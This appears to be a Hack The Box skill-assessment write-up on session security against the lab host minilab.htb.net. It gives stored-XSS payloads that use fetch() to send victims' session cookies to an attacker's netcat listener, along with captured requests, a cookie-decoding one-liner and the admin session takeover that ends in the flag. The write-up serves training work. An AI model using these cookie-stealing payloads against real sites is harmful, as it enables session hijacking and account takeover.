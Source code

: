 # Sesssion Security - Skill Assessment

The only URL in scope is http://minilab.htb.net
Attacking end-users through client-side attacks is in scope for this particular bug bounty program.

Test account credentials:
> [!IMPORTANT]
> Email: heavycat106
> Password: rocknrol
> Server: http://minilab.htb.net

Through dirbusting, you identified the following endpoint http://minilab.htb.net/submit-solution.

http://minilab.htb.net/app/

Endpoints:

http://minilab.htb.net/submit-solution

`<script>fetch(`http://10.10.14.184:4444?cookie=${btoa(document.cookie)}`)</script>`


nc -nvlp 4444
Connection from 10.10.14.184:38144
GET /?cookie=YXV0aC1zZXNzaW9uPXMlM0FzSkpQYjM1Y2xoZnQtbWlWTmI4YzhTS25wTmJIUE50bC5PTzIzYjFjcGpJNWJmYktkYWxDTnFhUkJjSSUyRjYxZHNoUnNmTW9IeW1yRGM= HTTP/1.1
Host: 10.10.14.184:4444
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: */*
Origin: http://minilab.htb.net
Referer: http://minilab.htb.net/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

We get the cookie:
[YXV0aC1zZXNzaW9uPXMlM0FzSkpQYjM1Y2xoZnQtbWlWTmI4YzhTS25wTmJIUE50bC5PTzIzYjFjcGpJNWJmYktkYWxDTnFhUkJjSSUyRjYxZHNoUnNmTW9IeW1yRGM]

Decode in base64:
[auth-session=s%3AsJJPb35clhft-miVNb8c8SKnpNbHPNtl.OO23b1cpjI5bfbKdalCNqaRBcI%2F61dshRsfMoHymrDc]

adminVisited	true
adminVisitedTimestamp	1749657564749
success	true

 ```js
 <script>const cookies = document.cookie;
const authSession = cookies.split('; ').find(row => row.startsWith('auth-session='));
if (authSession) {
    const authValue = encodeURIComponent(authSession.split('=')[1]);

    fetch(`http://10.10.14.184:1337/?cookie=${authValue}`)
        .then(response => console.log('Cookie sent successfully'))
        .catch(error => console.error('Error sending cookie:', error));
} else {
    console.error('auth-session cookie not found');
}</script>
 ```

 s%253A3lZBrpUccqxGE4j_75VAI0AIBGl4t9Ng.%252B%252Bv4%252FONgmqpgxl5V7vnrtgaMgspn1qJOBtLyk07nIh8

We change the cookie sotorag in minilab.htb.net/submit-solution
After that with nc activate go to the

[Get se sessuion:]
nc -nvlp 1337
Connection from 10.129.196.12:40722
GET /?cookie=s%253AE1zjz94gVYpO9CTQdMQYXrXQ_R4T7_Y6.MZVCsRnA3bRXYbbWJoCijjWz4uqnvahIjWhYBAeLJ0Q HTTP/1.1
Host: 10.10.14.184:1337
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36 [64253c4c19f292951ca3e6ce0788ed70dc12274d]
Accept: */*
Origin: http://minilab.htb.net
Referer: http://minilab.htb.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
---

echo "s%253AE1zjz94gVYpO9CTQdMQYXrXQ_R4T7_Y6.MZVCsRnA3bRXYbbWJoCijjWz4uqnvahIjWhYBAeLJ0Q" | sed 's/%/\\x/g' | xargs -0 echo -e

s%3AE1zjz94gVYpO9CTQdMQYXrXQ_R4T7_Y6.MZVCsRnA3bRXYbbWJoCijjWz4uqnvahIjWhYBAeLJ0Q

paste the cookie and find de superadmin:

FLAG{SUCCESS_YOU_PWN3D_US_H0PE_YOU_ENJ0YED}
